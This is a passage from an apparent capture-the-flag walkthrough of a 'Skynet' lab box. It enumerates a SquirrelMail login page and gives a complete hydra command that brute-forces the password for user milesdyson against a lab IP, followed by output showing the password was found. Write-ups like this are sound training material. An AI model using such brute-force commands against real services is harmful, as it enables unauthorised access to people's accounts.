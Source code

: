 Visiting the main page:

![](images/skynet2.png)

Checking out /squirrelmail:

![](images/skynet3.png)

I see if I can brute force my way into squirrelmail with the log1.txt password list and a username of milesdyson using hydra:

`hydra -l milesdyson -P log1.txt $ip http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."`

```
[80][http-post-form] host: 10.10.38.143   login: milesdyson   password: <REDACTED>
```

You can also use Burp intruder to crack the password if you'd prefer that route.

Logging into squirrelmail with the credentials we just found:

![](images/skynet4.png)
